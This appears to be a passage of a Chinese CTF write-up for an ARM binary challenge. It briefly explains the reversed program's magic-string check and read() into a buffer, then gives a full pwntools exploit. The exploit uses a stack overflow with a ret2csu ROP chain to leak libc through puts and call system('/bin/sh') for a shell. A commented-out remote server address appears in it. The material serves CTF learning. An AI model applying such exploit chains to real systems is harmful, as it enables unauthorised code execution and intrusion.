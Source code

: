 ```plain
    printf("comment> ");
    return read(0, v2, 256u);
  }
  return result;
}
```

逆向分析一下，malloc申请0x80的空间存储输入的msg的值，s同理

这里利用strcmp()进行比较，如果res与Sp5jS6mpH6LZC6GqSWe=相等，那么就会提示我们输入内容，利用read()进行读取我们输入的内容

其实就是利用ret2csu的打法泄露libc基地址，将system，binsh利用read写入之后再调用从而getshell

exp:

```plain
from pwn import *
p = process(["qemu-arm","-g", "1212","-L", "/usr/arm-linux-gnueabi/", "./chall"])
p = process(['qemu-arm','-L','/usr/arm-linux-gnueabi/','./chall'])
#p = remote('47.108.29.107',10244)
context.log_level='debug'
context.arch='arm'

elf = ELF('./chall')
libc = ELF('./libc-2.27.so')
#context.terminal = ['gnome-terminal','-x','sh','-c']

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))

sla('msg> ','s1mpl3Dec0d4r')
r4 = 0x00010cb0
r3 = 0x00010464
movcall = 0x00010ca0
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
leak('puts',puts_plt)
ret_addr=0x0010B60

pl = b'a'*0x2c+p32(r4)+p32(0)+p32(0)+p32(0)+p32(puts_got)+p32(0)+p32(0)+p32(0)+p32(r3)+p32(puts_plt)+p32(movcall)+p32(0)+p32(0)+p32(0)+p32(0)+p32(0)+p32(0)+p32(0)+p32(ret_addr)
pause()

p.sendlineafter('comment> ',pl)

libcbase = uu32(r(4)) - libc.sym['puts']
leak('libcbase',libcbase)

system = libcbase + libc.sym['system']
binsh = libcbase + next(libc.search(b"/bin/sh\00"))

sla('msg> ','s1mpl3Dec0d4r')

pl = b'a'*44+p32(r4)+p32(0)+p32(0)+p32(0)+p32(binsh)+p32(0)+p32(0)+p32(0)+p32(r3)+p32(system)+p32(movcall)

p.sendlineafter('comment> ',pl)
```